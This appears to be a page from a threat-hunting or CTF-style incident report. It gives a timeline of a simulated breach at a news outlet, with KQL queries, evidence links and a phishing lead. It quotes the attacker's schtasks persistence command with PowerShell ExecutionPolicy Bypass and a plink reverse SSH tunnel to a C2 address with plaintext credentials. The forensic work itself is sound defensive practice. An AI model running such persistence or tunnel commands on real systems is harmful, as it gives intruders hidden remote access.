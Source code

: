 **Interpretation (analysis):** plink.exe is a command-line tool that lets you connect to remote server over SSH, Telnet or serial. It is often used to run commands or scripts on remote machines non-interactively.
**Evidence IDs:** [E-003 – hacktivist_manifesto.ps1](evidence/E-003_hacktivist_manifesto_ps1.md)
## 1/5/2024, 11:22:44 AM
**Action:** Scheduled task was created with ExecutionPolicy Bypass
**Tool/Command:** 
```
ProcessEvents
| where process_commandline contains "hacktivist_manifesto.ps1"
| where hostname == "UL0M-MACHINE"
```
**Observation (facts):**  Command used: schtasks /create /sc hourly /mo 5 /tn "Hacktivist Manifesto" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\hacktivist_manifesto.ps1"
**Evidence IDs:** [E-004 – Scheduled task created](evidence/E-004_Scheduled_task_created.md)
## 1/5/2024, 11:55:22 AM
**Action:** PowerShell script executed.
**Observation (facts):** process_commandline == "powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\hacktivist_manifesto.ps1"
**Interpretation (analysis):** Script contained SSH username "$had0w" and password "thruthW!llS3tUfree"
**Evidence IDs:** [E-003 – hacktivist_manifesto.ps1](evidence/E-003_hacktivist_manifesto_ps1.md)
## 1/6/2024, 2:39:35 AM
**Action:**  Host "UL0M-MACHINE" connected to C2 server
**Tool/Command:** 
```
ProcessEvents
| where process_commandline contains "plink.exe"
| where hostname == "UL0M-MACHINE"
```
**Observation (facts):** Command successfully executed, remote connection to C2 server initiated.
**Interpretation (analysis):** process_commandline == "plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw thruthW!llS3tUfree 136.130.190.181"
**Evidence IDs:** [E-003 – hacktivist_manifesto.ps1](evidence/E-003_hacktivist_manifesto_ps1.md), [E-005 – Adversarys C2 server](evidence/E-005_Adversarys_C2_server.md)

--- 
New information was provided: *Another suspicious email  address  `valdorias_best_recruiter@gmail.com` was seen sending emails to intern Ronnie and a few others.*
## 1/10/2024, 8:48:16 AM
**Action:** Intern Ronnie got email from suspicious email `valdorias_best_recruiter@gmail.com`
**Tool/Command:**
```
Email
| where sender == "valdorias_best_recruiter@gmail.com" and recipient == "ronnie_mclovin@valdoriantimes.news"
```
**Evidence IDs:** [E-006 – Suspicious email](evidence/E-006_Suspicious_email.md)
## 1/10/2024, 8:55:07 AM
**Action:** Ronnie clicked a link on email
**Tool/Command:**
```
let ronnies_ip =
Employees
| where name == "Ronnie McLovin"
| distinct ip_addr;
OutboundNetworkEvents
| where src_ip in (ronnies_ip)
| where url contains "promotionrecruit.org"
```
